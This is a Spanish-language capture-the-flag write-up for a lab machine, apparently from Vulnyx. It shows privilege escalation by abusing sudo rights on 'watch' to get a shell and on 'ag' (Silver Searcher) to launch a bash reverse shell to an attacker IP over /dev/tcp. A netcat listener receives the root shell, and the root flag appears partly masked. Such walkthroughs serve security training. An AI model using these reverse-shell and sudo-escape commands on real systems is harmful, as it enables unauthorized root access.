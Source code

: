 ```bash
User www-data may run the following commands on wrapp:
    (henry) NOPASSWD: /usr/bin/watch
```
Este archivo binario lo puedo ejecutar con los privilegios del usuario **henry**
* [GTFOBINS binary watch -> Shell - SUID - Sudo - Limited SUID ](https://gtfobins.github.io/gtfobins/watch/). 

Ya he podido cambiar de usuario pivotando un poco y con este **henry** podemos usar el siguiente comando con privilegios de **sudo**
```bash
www-data@wrapp:/var/www/html/advanced-search$ sudo -u henry /usr/bin/watch -x bash -c 'reset; exec bash 1>&0 2>&0'
sh -c 'reset; exec bash 1>&0 2>&0's
henry@wrapp:/var/www/html/advanced-search$ whoami
henry
henry@wrapp:/var/www/html/advanced-search$ sudo -l
Matching Defaults entries for henry on wrapp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on wrapp:
    (root) NOPASSWD: /usr/bin/ag
```
# Silver Searcher es una herramienta para buscar código. 
* [Enlace oficial - ag](https://geoff.greer.fm/ag/)

Al ejecutarse como **sudo**, **the silver searcher - ag** tiene una manera de poder enviar una **reverse-shell** a mi maquina de atacante y asi obeter una shell-bash con todos los prvilegios
* para este punto obtuve ayuda del Writeup de Noname en Vulnyx.

```bash
henry@wrapp:/var/www/html/advanced-search$ sudo -u root /usr/bin/ag --pager "/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.2.128/1234 0>&1\""
n/bash -c \"/bin/bash -i >& /dev/tcp/192.168.2.128/1234 0>&1\""
ERR: What do you want to search for?
```
Ejecuto el comando y estando en escucha en mi equipo con **nc** ya obtengo una conexion como el usuario **root** y puedo visualizar la flag
```bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.23] 41516
bash: initialize_job_control: no job control in background: Bad file descriptor
root@wrapp:/var/www/html/advanced-search# whoami
root
root@wrapp:/var/www/html/advanced-search# cd
root@wrapp:~# pwd
/root
ls
root.txt
root@wrapp:~# cat root.txt
64e**************************4eb
```

 Espro que te pueda servir de ayuda. GRACIAS por venir.
